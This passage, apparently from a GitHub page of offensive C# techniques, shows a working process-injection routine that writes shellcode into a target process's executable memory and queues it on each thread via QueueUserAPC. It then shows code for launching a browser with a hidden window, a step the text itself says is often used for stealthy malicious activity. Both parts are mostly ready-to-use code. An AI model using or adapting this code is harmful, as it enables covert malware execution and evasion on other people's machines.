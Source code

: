 ```csharp
    const uint THREAD_SET_CONTEXT = 0x0010;
    const uint MEM_COMMIT = 0x1000;
    const uint MEM_RESERVE = 0x2000;
    const uint PAGE_EXECUTE_READWRITE = 0x40;

    static void Main()
    {
        int targetProcessId = 1234; // Replace with the target process ID
        byte[] shellcode = new byte[] { /* Your shellcode here */ };

        IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, targetProcessId);
        IntPtr allocMemAddress = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

        IntPtr bytesWritten;
        WriteProcessMemory(hProcess, allocMemAddress, shellcode, (uint)shellcode.Length, out bytesWritten);

        Process targetProcess = Process.GetProcessById(targetProcessId);
        foreach (ProcessThread thread in targetProcess.Threads)
        {
            IntPtr hThread = OpenThread(THREAD_SET_CONTEXT, false, (uint)thread.Id);
            QueueUserAPC(allocMemAddress, hThread, IntPtr.Zero);
        }
    }
}
```

### 3. Using the Web Browser in a Stealthy Manner

While making the browser invisible can be done for legitimate automation tasks, it is often used maliciously for stealthy activities.

#### Opening a Browser Invisibly in C#
```csharp
using System;
using System.Diagnostics;

class Program
{
    static void Main()
    {
        ProcessStartInfo psi = new ProcessStartInfo
        {
            FileName = "msedge.exe", // or "chrome.exe"
            Arguments = "http://example.com",
            WindowStyle = ProcessWindowStyle.Hidden,
            CreateNoWindow = true
        };

        Process.Start(psi);
    }
}
```
